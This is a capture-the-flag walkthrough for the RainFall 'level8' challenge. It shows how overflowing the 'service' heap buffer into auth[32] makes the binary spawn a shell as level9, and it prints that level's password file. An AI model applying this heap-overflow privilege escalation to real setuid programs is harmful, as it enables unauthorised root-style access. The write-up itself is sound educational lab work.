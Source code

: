# Level8

## Objective

The goal of Level 9 is to escalate from `level8` to `level9` by abusing how the `level8` binary manages heap allocations. By carefully using the available commands (`auth`, `reset`, `service`, and `login`), we can trigger the program to call `system("/bin/sh")` and gain a shell.

---

## Step 1: Examine the Binary

After switching to `level8`:

Running the binary:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
heu bjr ?
(nil), (nil)
```
With ltrace we can see that at the begining of the run the program uses printf imedietly.
`printf(%p, %p\n, (nil), (nil)(nil), (nil))`
It prints two empty pointers.

```bash
(gdb) info variables
All defined variables:
    0x08049aac auth
    0x08049ab0 service
    
```
Probably auth and service..
`(auth, service)`, both initially `nil`. Input is read with `fgets()`.

---

## Step 2: Disassembling the main

Disassembly of `main()` reveals four commands or four steps:

*It reads the input and store it as a buffer in the local memory. This buffer is compared 4 times in a raw to ascii strings. They're "auth", "service", "reset" and "service" 

* `auth <data>` → calls `malloc(4)` and `strcpy()` into the global `auth` pointer.
> Auth allocate a 4 octet space and store our argument inside. 
* `reset` → frees the `auth` pointer.
* `service <data>` → calls `strdup()` and copies into the global `service` pointer.
* `login` → if `auth[32] != 0`, it calls `system("/bin/sh")`. Otherwise, it calls `fwrite()`.
> This checks if there's something at the ofset 0x20 or [32]

Thus, the game plan is to get `auth[32]` set to something non-zero.

---

## Step 3: Heap Behavior

Heap allocations are sequential in memory. Testing shows:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Here `auth` is at `0x804a008` and `service` is exactly 16 bytes later. With padding, we can arrange things so that writing into `service` overflows into `auth[32]`.

---

## Step 4: Exploit Strategy

**Solution `service` overflow:**

* Create `auth` → allocates 4 bytes.
* Create `service` with a payload long enough to cover the 16-byte padding and reach `auth+32`.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
serviceaaaaaaaaaaaaaaaa
0x804a008, 0x804a018
login
$ whoami
level9
```

## Step 5: Escalate to Level9

Once `login` succeeds, we get a shell as `level9`:

```bash
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

**End of Level8 Walkthrough**

